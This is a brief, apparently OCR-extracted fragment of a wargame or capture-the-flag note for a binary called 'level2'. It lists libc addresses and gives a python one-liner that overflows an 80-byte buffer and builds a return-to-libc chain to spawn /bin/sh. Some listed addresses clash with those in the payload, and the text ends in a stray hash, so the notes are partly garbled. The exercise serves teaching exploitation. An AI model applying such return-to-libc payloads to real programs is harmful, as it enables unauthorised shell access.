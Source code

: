 1. **return address integrity check**

   0xb7f8cc58  system

   0xb7f74a67 /bin/sh

   0xb7f74a64 exit

   0xb7e6b060 system

   0x0804853e ret

   (python -c "print('A'*80 + '\\x3e\\x85\\x04\\x08' + '\\x60\\xb0\\xe6\\xb7' + '\\xe0\\xeb\\xe5\\xb7' + '\\x58\\xcc\\xf8\\xb7')"; cat) | ./level2

   or we may use tge array reverse  
   492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02